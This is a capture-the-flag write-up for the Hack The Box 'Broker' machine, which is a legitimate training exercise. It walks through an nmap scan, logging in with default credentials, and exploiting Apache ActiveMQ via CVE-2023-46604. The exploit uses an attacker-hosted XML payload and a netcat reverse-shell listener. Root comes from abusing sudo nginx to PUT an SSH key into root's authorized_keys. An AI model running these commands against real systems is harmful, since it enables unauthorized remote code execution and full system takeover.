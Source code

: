 # HTB Broker
## OS: Linux
## Difficulty: Easy

## Enumeration
I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.163.176  --max-retries 1
```

```
22/tcp    open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
5672/tcp  open  amqp
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  patrol-snmp
40965/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Let's take a look at the http ports.
I'll start with port 80.

We get a login popup.

![80_pop](IMG/img1.png)

I'll try default credentials admin:admin.

And it worked.

![80_index](IMG/img2.png)

After reading about activemq I found out it uses stomp over websockets.

```
61613/tcp open  stomp      Apache ActiveMQ
```

I'll try co connect to that socket with nc.

```bash
nc 10.129.163.176 61616
```

Result:
```
<ActiveMQ
         *
          TcpNoDelayEnabledSizePrefixDisabled   CacheSize
                                                         ProviderName  ActiveMQStackTraceEnabledPlatformDetails Java
CacheEnabledTightEncodingEnabled
                                MaxFrameSize@MaxInactivityDurationu0 MaxInactivityDurationInitalDelay'ProviderVersion       5.15.15
```

So now we know the used version.

## Foothold

After searching for CVEs affecting this version I found this https://github.com/evkl1d/CVE-2023-46604

I changed the ip address and port in the xml file and executed the exploit.
```bash
python3 -m http.server -b 10.10.14.142 # started the web server

rlwrap nc -lnvp 6666 #started listening on port 6666

python exploit.py -i 10.129.163.176 -p 61616 -u http://10.10.14.142:8000/poc.xml #run the exploit
```

![shell](IMG/img3.png)

And it worked. Now we can get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation

Let's see if we can run anything as the root user.
```bash 
sudo -l
```

![sudo-l](IMG/img4.png)

And we can. I found a POC for privilege escalation using nginx as root user.

https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406


We start by making a configuration file for nginx in witch the root directory is the root directory of the target and the user is root.

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
```

We'll start the nginx server, and add our ssh keys to the authorized_keys file.

On target:
```
sudo nginx -c /tmp/nginx.conf
```

On host:
```bash
curl -X PUT http://10.129.163.176:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"

ssh root@10.129.163.176 -i id_rsa
```

![root](IMG/img5.png)

It worked! Now let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!